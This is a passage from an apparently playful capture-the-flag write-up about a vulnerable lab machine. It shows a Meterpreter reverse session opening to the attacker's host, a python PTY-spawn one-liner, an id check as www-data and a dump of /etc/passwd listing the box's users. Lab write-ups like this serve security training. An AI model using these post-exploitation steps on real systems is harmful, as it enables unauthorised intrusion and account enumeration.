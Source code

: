 
``` bash
[*] Sending stage (40551 bytes) to 192.168.0.103
[*] Meterpreter session 1 opened (192.168.0.110:443 -> 192.168.0.103:48153) at 2014-07-17 21:55:37 +0100

meterpreter >
```




Now would be a good time for a party, but there's hacking to do.  Plus I have no cake or balloons.  Or friends. _*whimper*_ ... HACKING !!!




The Metepreter session can be used to get a shell, which doesn't seem to be TTY, but we can fix that with a nifty command thanks to [g0tmi1k](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) himself (who is presumably hiding from Jack, the creepy so-and-so). The id command shows that we are currently under the context of the www-data user.





``` bash
meterpreter > shell
Process 10279 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/sh")'
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```


BAM ! We've just started the journey.

Catting /etc/passwd gives us a list of users that are potentially useful


``` bash

$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
george:x:1000:1000:george,,,:/home/george:/bin/bash
jack:x:1001:1001::/home/jack:/bin/sh
milk_4_life:x:1002:1002::/home/milk_4_life:/bin/sh
developers:x:1003:1003::/home/developers:/bin/sh
bazza:x:1004:1004::/home/bazza:/bin/sh
oj:x:1005:1005::/home/oj:/bin/sh

```




* * *
